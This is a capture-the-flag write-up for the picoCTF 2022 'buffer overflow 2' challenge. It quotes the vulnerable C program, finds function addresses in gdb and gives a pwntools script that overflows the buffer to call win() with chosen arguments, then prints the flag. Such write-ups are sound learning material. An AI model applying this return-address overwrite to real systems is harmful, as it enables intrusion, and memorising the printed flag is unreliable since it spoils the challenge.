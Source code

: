 #pico2022 #binaryexploitation 

## Challenge:
```md
Control the return address and arguments
```

This challenge launches an instance.
```md
Control the return address and arguments This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://artifacts.picoctf.net/c/344/vuln)? You can view source [here](https://artifacts.picoctf.net/c/344/vuln.c). And connect with it using `nc saturn.picoctf.net 60541`
```

## Process:
Download the files.
```bash
curl -O https://artifacts.picoctf.net/c/344/vuln
curl -O https://artifacts.picoctf.net/c/344/vuln.c
```
#curl 

Looking at the source.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
#c 

Here I see the **win()** function and that it needs 2 arguments *0xCAFEF00D* and *0xF00DF00D*.
```c
...
  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
...
```

Run ```gdb``` and find the overflow offset as well as find the **win()**  and **main()** functions.
```bash
gdb vuln
```
#gdb 

```
gdb-peda$ info function main
All functions matching regular expression "main":

Non-debugging symbols:
0x08049140  __libc_start_main@plt
0x08049372  main

gdb-peda$ info function win
All functions matching regular expression "win":

Non-debugging symbols:
0x08049296  win
```

```
gdb-peda$ run
Starting program: /home/jacob/docs/ctf/pico/2022/042_buffer_overflow_2/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
```

![[042_buffer_overflow_2.png]]


I wrote a script to send the payload.
```python
#!/usr/bin/env python3

from pwn import *

connect = remote("saturn.picoctf.net", 60541)
log.info("Starting buffer overflow")
connect.recvuntil(b":")
log.info("Creating payload")
payload = b"A" * 112
payload += p32(0x8049296) # win function address
payload += p32(0x8049372) # main function address
payload += p32(0xCAFEF00D) # arg1
payload += p32(0xF00DF00D) # arg2
log.info("Sending payload to the server")
connect.sendline(payload)
connect.recv()
connect.interactive()
```

Run the exploit.
```bash
python exploit.py
```
#python 

```
[+] Opening connection to saturn.picoctf.net on port 62483: Done
[*] Starting buffer overflow
[*] Creating payload
[*] Sending payload to the server
[*] Switching to interactive mode
\xf0\xfe\xcaAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x96\x92\x04r\x93\x04
picoCTF{argum3nt5_4_d4yZ_b3fd8f66}Please enter your string:
```

And this gave me the flag.
```bash
echo "picoCTF{argum3nt5_4_d4yZ_b3fd8f66}" > flag.txt
```

**Flag: *picoCTF{argum3nt5_4_d4yZ_b3fd8f66}***
